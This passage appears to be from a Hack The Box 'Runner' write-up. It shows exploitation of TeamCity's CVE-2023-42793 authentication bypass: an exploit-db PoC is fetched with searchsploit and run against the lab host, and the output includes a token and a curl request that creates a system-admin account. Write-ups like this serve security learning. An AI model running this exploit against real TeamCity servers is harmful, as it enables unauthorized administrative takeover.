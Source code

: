 # User Flag
---

## Shell as tcuser in docker container


### 80 - TeamCity 2023.05.3 : RCE (CVE-2023-42793)

- Google : `TeamCity 2023.05.3 exploit`

> POC - https://www.exploit-db.com/exploits/51884

> Reference - https://blog.projectdiscovery.io/cve-2023-42793-vulnerability-in-jetbrains-teamcity/

> Other **CVE**s can be easily detected by **nuclei** templates
> 
> ![](/assets/obsidian/00d04b331b37604591200df0f1918b76.png)
{: .prompt-tip }

This exploit can create an admin account without authentication

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner/exploit]
└─$ searchsploit -m 51884
  Exploit: JetBrains TeamCity 2023.05.3 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/51884
     Path: /usr/share/exploitdb/exploits/java/remote/51884.py
    Codes: CVE-2023-42793
 Verified: False
File Type: ASCII text, with very long lines (312)
Copied to: /home/kali/htb/Runner/exploit/51884.py
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Runner/exploit]
└─$ python 51884.py -u http://teamcity.runner.htb -v

=====================================================
*       CVE-2023-42793                              *
*  TeamCity Admin Account Creation                  *
*                                                   *
*  Author: ByteHunter                               *
=====================================================

Token: eyJ0eXAiOiAiVENWMiJ9.VUZJb3VjYVpLZ3NzaTdrTld6N2FWVm9Pdi1V.YjY1MDdkOGYtZDg0ZS00NTQ4LWIwNTYtZGJlYjNkOWYyMmZl
Successfully exploited!
URL: http://teamcity.runner.htb
Username: city_adminHlUy
Password: Main_password!!**
Final curl command: curl --path-as-is -H "Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.VUZJb3VjYVpLZ3NzaTdrTld6N2FWVm9Pdi1V.YjY1MDdkOGYtZDg0ZS00NTQ4LWIwNTYtZGJlYjNkOWYyMmZl" -X POST http://teamcity.runner.htb/app/rest/users -H "Content-Type: application/json" --data '{"username": "city_adminHlUy", "password": "theSecretPass!", "email": "nest@nest", "roles": {"role": [{"roleId": "SYSTEM_ADMIN", "scope": "g"}]}}'
```
